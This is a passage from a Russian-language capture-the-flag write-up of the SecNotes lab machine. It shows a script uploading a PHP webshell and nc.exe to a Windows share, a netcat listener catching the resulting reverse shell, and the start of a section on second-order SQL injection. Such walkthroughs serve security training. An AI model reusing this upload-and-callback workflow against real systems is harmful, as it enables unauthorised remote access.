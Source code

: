 ```text
root@kali:~# chmod +x secnotes_reverse_tcp.sh
root@kali:~# ./secnotes_reverse_tcp.sh 10.10.14.71 443
[*] Uploading evil.php and nc.exe
putting file webshell.php as \evil.php (0.2 kb/s) (average 0.2 kb/s)
putting file /usr/share/windows-binaries/nc.exe as \nc.exe (207.1 kb/s) (average 207.1 kb/s)
[+] Sucessfully uploaded evil.php and nc.exe
[*] Triggering nc shell callback to 10.10.14.71:443

```

```text
root@kali:~# nc -lvnp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:49690.
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>
```

## SQLi второго порядка
Выясним, откуда растут ноги у SQL-инъекции второго порядка. Для этого проанализируем исходный код приложения, осуществляющий взаимодействие с базой данных.

Вот вся магия, которая управляет веб-сайтом (да еще к тому же имитирует поведение Тайлера):
```text
C:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA

 Directory of C:\inetpub\wwwroot

06/22/2018  05:51 AM    <DIR>          .
06/22/2018  05:51 AM    <DIR>          ..
06/22/2018  05:57 AM               402 auth.php
06/22/2018  05:57 AM             3,887 change_pass.php
06/22/2018  06:17 AM             2,556 contact.php
06/22/2018  05:57 AM               670 db.php
06/22/2018  05:58 AM             4,315 home.php
06/22/2018  05:57 AM             4,221 login.php
06/15/2018  01:44 PM               235 logout.php
06/22/2018  05:57 AM             5,168 register.php
06/22/2018  05:59 AM             3,956 submit_note.php
06/16/2018  07:05 PM               548 web.config
              10 File(s)         25,958 bytes
               2 Dir(s)  33,245,876,224 bytes free
```
